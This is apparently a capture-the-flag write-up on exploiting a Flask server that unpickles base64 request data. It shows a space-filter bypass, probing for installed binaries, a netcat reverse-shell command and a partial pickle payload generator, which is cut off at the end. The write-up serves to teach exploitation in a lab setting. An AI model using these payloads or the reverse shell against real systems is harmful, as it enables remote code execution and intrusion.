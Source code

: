 ## Rundown

Running a get command on the server displays the message `APIv2 @ 2020 - You think you got methods for this?`. Upon sending a post request we are met with Werkzeug error trace:

```
    @app.route("/", methods=["POST"])
    def newpost():
    Open an interactive python shell in this frame  ​picklestr = base64.urlsafe_b64decode(request.data
      if " " in picklestr:
        return "The ' ' is blacklisted!"
      postObj = cPickle.loads(picklestr)
      return ""
      
    if __name__ == "__main__":
        app.run(host = "0.0.0.0", debug=True)
```

It appears the server is trying to deserialize data in an unsafe manner. I started working on this task with [this script](https://gist.github.com/msamogh/bb9bad96046ad390e5ae62f7e8b1d78c).

My first attempt was to run a sleep command in order to check if I can run shell commands. Two main difficulties need to be overcome in order to do this:
 * The os library might not be imported by the server (turned out to be true)
 * The space character is not allowed inside our payload
 
The command we are trying to run is `os.system("sleep 10")`.
In order to bypass the space character check we can change the command into `eval('os.system("sleep"+str(chr(32))+"10")')`. By using this trick we dont actually send any spaces and the command works as intended.
To avoid needing to `import os` we can replace `os` with `__import__("os")`. The command we needed to send becomes `eval('os.system("sleep"+str(chr(32))+"10")')` and does indeed result in the server sleeping for 10 seconds. We will use this formatting for any future commands we try to send to the server

Now we could try and send a `cat flag` command however that would be no good because the server would jsut display the result locally and not send it over the web. We need to get a reverse shell. I initially tried to `curl` or `wget` a payload which I would later execute to achieve a reverse shell, however the programs did not seem to be installed. I ran the commands `ls <PATH> || sleep 10` in order to check if certain programs existed. If the response returned immediately it meant the program existed. I found that `/bin/nc.traditional` is installed on the server.

I ran the command `nc -l -p 4000` locally and sent the command `/bin/nc.traditional -e /bin/bash <snip> 4000` to the server which resulted in a reverse shell.

The final payload generator looked like this:
```
#!/usr/bin/env python

import os
import sys
import pickle
import cPickle
import base64

class Exploit(object):
    def __reduce__(self):
        return (eval(fn), (cmd,))

try:
    pickle_type = sys.argv[3]
    cmd = sys.argv[2]
    fn = sys.argv[1]
except:
    pickle_type = 'cpickle' # or cpickle
```